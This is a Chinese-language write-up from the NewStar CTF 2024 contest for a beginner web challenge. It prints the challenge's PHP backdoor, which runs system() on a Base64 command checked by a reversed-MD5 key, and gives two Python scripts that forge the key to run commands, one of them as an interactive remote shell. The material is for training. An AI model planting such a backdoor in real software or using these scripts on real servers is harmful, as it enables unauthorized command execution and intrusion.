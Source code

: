 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 智械危机

`index.php` 的基本提示：

```php
echo "<b>ROBOTS</b> is protecting this website!<br>";
echo "But it is not smart enough...<br>";
echo "It may leak some information to you, future hackers!";
```

明显的提示：查看 `robots.txt`，得到了路由 `/backd0or.php`

```php
<?php
function execute_cmd($cmd) {
    system($cmd);
}
function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}
if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

一个对新生来说略绕的 PHP 代码阅读，也对编写脚本、使用 WebShell 的能力进行初步的考查。

`cmd` 参数是 **Base64 编码后**的 `system` 命令。

`key` 的验证逻辑：将<strong>`cmd` 参数值</strong>字符串翻转后，计算 MD5 哈希，并与 Base64 解码后的 `key` 进行比较。

因此我们将这个过程反过来，就可以得到解题 EXP：

```python
import requests
import base64
import hashlib
print("[+] Exploit for newstar_zhixieweiji")
url = "http://yourtarget.com/backd0or.php"
cmd = "cat /flag"
cmd_encoded = base64.b64encode(cmd.encode()).decode()
cmd_reversed = cmd_encoded[::-1]
hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
payload = {
    'cmd': cmd_encoded,
    'key': encoded_key
}
response = requests.post(url, data=payload)
print(f"[+] Flag: {response.text}")
```

EXP 使用了 `requests` 库负责请求后门 shell，也可以用任何一款能够发出 POST 请求的工具完成这一操作，如 HackBar、BurpSuite 等。

<Container type="quote" title="出题人的胡诌">

请各位选手**打好编程基础，不要浮躁**。这题的代码逻辑应该懂一点英语就能够看懂了，变量名称也没做混淆。AI 可能会胡编，但是完全可以给你提取出足够的**关键词**用于搜索。
</Container>

这题的出法**不鼓励**手搓！！！先编码再逆序，执行一个指令都费劲，flag 位置没猜对就得再搓一遍。只要脚本写好，这题完全可以得到一个简洁的交互式 shell：

![交互式 Shell 示意图](/assets/images/wp/2024/week1/zhixieweiji_1.png)

附代码：

```python
import requests
import base64
import hashlib
print("[+] Shell for newstar_zhixieweiji")
url = input("[+] Enter the target URL: ")
def execute_command(cmd):
    cmd_encoded = base64.b64encode(cmd.encode()).decode()
    cmd_reversed = cmd_encoded[::-1]
    hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
    encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
    payload = {'cmd': cmd_encoded,'key': encoded_key}
    response = requests.post(url, data=payload)
    return response.text[:-1]
hostname = execute_command("hostname")
username = execute_command("whoami")
while True:
    directory = execute_command("pwd")
    command = input(f"{username}@{hostname}:{directory}$ ")
    output = execute_command(command)
    print(output)
```
